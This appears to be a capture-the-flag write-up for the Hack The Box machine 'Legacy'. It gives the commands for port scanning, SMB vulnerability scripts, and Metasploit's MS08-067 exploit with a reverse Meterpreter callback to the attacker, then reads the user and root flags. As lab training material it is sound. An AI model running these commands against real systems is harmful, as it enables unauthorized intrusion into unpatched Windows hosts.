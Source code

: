 # ****10.10.10.4 - Legacy****

```bash
rustscan -a 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d5a20a01-fc19-4129-b59f-8d1568842e27)


```bash
nmap -A -p 135,139,445 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ecfa94ea-8cee-4817-9c38-08353cc9988c)

```bash
nmap -v -script smb-vuln* -p 139,445 10.10.10.4
```
![image](https://github.com/lufffe/Writeups/assets/90646635/eaecec0a-da46-4baa-9290-71ec247b74b3)

```bash
msfconsole
```
![image](https://github.com/lufffe/Writeups/assets/90646635/75399ce6-7f11-4306-a474-0ee600582817)

```bash
search ms08-067
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.14.17
```

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > exploit
```

```bash
meterpreter > pwd
```

C:\Documents and Settings\John\Desktop

```bash
meterpreter > cat user.txt
```

```bash
meterpreter > pwd
```

C:\Documents and Settings\Administrator\Desktop

```bash
meterpreter > cat root.txt
```
